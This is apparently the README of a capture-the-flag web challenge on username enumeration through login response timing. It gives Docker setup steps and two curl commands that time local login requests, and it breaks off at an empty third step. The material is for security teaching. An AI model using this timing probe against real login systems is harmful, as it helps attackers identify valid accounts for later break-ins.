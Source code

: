 # ⏱️ Timekeeper - CTF Challenge

**Category:** Web  
**Difficulty:** Medium  
**Vulnerability:** Username Enumeration via Response Timing  

---

## 📘 Description

Welcome to **Timekeeper** — a CTF challenge simulating a real-world vulnerability where the login response time leaks information about valid usernames.

The challenge features a login portal with a subtle timing difference when a correct username is provided versus an incorrect one.

---

## 🛠️ Setup Instructions

### 🐳 Using Docker (Recommended)

```bash
git clone https://github.com/your-repo/timekeeper-ctf.git
cd timekeeper-ctf
docker build -t timekeeper .
docker run -p 3000:3000 timekeeper
```
## Step-by-Step Exploitation
 - Step 1:Test Invalid Username Timing
 ```bash
curl -X POST -d "username=test&password=123" http://localhost:3000/login -w "\n%{time_total}\n"

 ```
 - Step 2: Test Valid Username Timing
```bash
curl -X POST -d "username=admin&password=123" http://localhost:3000/login -w "\n%{time_total}\n"

```

 - Step 3: 